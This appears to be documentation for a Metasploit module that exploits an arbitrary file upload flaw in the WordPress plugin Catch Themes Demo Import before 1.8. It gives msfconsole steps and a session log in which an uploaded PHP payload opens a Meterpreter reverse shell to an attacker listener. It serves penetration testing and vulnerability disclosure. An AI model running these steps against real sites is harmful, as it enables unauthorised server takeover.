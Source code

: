 ## Vulnerable Application

The Wordpress Plugin Catch Themes Demo Import versions < 1.8 are vulnerable to arbitrary file
uploads via the import functionality found in the `~/inc/CatchThemesDemoImport.php` file,
due to insufficient file type validation.

Of note, the check functionality may not detect the version of `Catch Themes Demo Import` due
to the readme file not containing the proper version number line.

## Verification Steps

1. Install the plugin to wordpress
1. Start msfconsole
1. Do: `use exploits/multi/http/wp_catch_themes_demo_import`
1. Do: `set rhosts`
1. Do: `set username`
1. Do: `set password`
1. Do: `run`
1. You should get a shell.

## Options

### USERNAME

Username of the account which has post privileges. Defaults to `admin`.

### PASSWORD

Password of the account which has post privileges. Defaults to `admin`

## Scenarios

### Wordpress Catch Themes Demo Import 1.6.1 on Wordpress 5.4.8 running on Ubuntu 20.04

```
resource (catch_theme.rb)> use exploits/multi/http/wp_catch_themes_demo_import
[*] Using configured payload php/meterpreter/reverse_tcp
resource (catch_theme.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (catch_theme.rb)> set username admin
username => admin
resource (catch_theme.rb)> set password admin
password => admin
resource (catch_theme.rb)> set verbose true
verbose => true
resource (catch_theme.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (catch_theme.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/catch-themes-demo-import/readme.txt
[!] The service is running, but could not be validated. Could not identify the version number
[*] Ajax Nonce: 11a5dba010
[*] Uploading payload filename: Y5LBjS3t.php
[*] Triggering payload at wp-content/uploads/2021/12/Y5LBjS3t.php
[*] Sending stage (39282 bytes) to 2.2.2.2
[+] Deleted Y5LBjS3t.php
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:34002 ) at 2021-12-21 20:01:30 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
